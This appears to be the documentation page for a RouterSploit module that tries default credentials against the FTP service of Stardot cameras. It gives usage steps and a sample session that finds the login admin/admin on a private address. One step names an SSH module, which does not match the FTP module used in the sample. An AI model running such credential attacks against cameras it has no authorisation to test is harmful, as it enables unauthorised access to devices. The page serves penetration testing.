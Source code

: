 ## Description

Module performs dictionary attack with default credentials against Stardot Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/stardot/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/stardot/ftp_default_creds
rsf (Stardot Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Stardot Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```

